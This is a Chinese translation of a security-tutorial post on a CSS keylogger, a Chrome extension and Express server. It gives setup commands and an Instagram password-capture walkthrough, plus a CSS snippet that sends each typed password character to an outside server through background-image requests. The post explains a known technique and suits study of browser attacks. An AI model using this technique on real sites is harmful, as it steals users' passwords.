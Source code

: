 # CSS 键盘记录器–Chrome 扩展和 Express 服务器，利用 CSS 的键盘记录功能

> 原文：<https://kalilinuxtutorials.com/css-keylogger-chrome-exploits-keylogging/>

CSS 键盘记录器是一个 Chrome 扩展和 Express 服务器，利用 CSS 的键盘记录功能。使用一个简单的脚本就可以创建一个 css 文件，为每个 ASCII 字符发送一个定制请求。

## **设置 Chrome 扩展**

1.  下载存储库`git clone https://github.com/maxchehab/CSS-Keylogging`
2.  在你的浏览器中访问`chrome://extensions`(或者点击 Omnibox 最右边的图标打开 Chrome 菜单:菜单的图标是三个水平条。并选择“更多工具”菜单下的“扩展”来找到相同的位置)。
3.  确保右上角的“开发人员模式”复选框已选中。
4.  点击`Load unpacked extension…`弹出文件选择对话框。
5.  在您下载该库的目录中选择`css-keylogger-extension`。

**也可解读为 [挥发性框架——挥发性内存提取实用框架](https://kalilinuxtutorials.com/volatility-framework-volatile-memory/)**

### **设置快递服务器**

1.  `yarn`
2.  `yarn start`

## **哈克斯金 l33t 通行证**

1.  打开一个使用受控组件框架(如 React)的网站。[https://instagram.com](https://www.instagram.com/)。
2.  按下任何网页右上角的扩展名`C`。
3.  键入您的密码。
4.  您的密码应该被 express 服务器捕获。

## **CSS 键盘记录器如何工作**

这个攻击真的很简单。利用 CSS 属性选择器，可以在加载一个`background-image`的前提下从外部服务器请求资源。

例如，下面的 css 将选择所有输入的`type`等于`password`并且`value`以`a`结束。然后它会尝试从[这里](http://localhost:3000/a)加载一个图像。

```
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/maxchehab/CSS-Keylogging)